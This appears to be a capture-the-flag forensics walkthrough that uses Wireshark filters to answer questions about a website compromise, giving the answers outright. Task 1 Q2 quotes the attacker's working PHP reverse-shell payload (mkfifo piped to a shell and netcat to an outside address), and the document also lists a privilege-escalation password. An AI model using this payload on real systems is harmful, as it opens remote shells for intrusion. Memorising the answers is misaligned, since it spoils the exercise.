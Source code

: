 ### Task 3
**Q1: The attacker defaced the website. What message did they leave as a heading?**
> H4ck3d by CooctusClan

*\<Remaining questions in this task are for the flags\>*

## Walkthrough
### Task 1
**Q1: What was the URL of the page they used to upload a reverse shell?**
> /development/

Use the display filter: `http`.

Request to `/development/upload.php` will be the only POST.

<img src="images/task1/q1_upload_location.png" alt="Q1: Reverse shell upload location" width="35%" height="35%"> <br>

---
<br>

**Q2: What payload did the attacker use to gain access?**
> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Use the display filter: `tcp.stream == 1`.

Right-click on any of the packets, click `Follow -> HTTP Stream`.

Payload is found in the POST request.

<img src="images/task1/q2_php_payload.png" alt="Q2: PHP payload" width="50%" height="50%"> <br>

---
<br>

**Q3: What password did the attacker use to privesc?**
> whenevernoteartinstant

Use the display filter: `tcp.port == 4242`.

Right-click on any of the packets, click `Follow -> TCP Stream`.
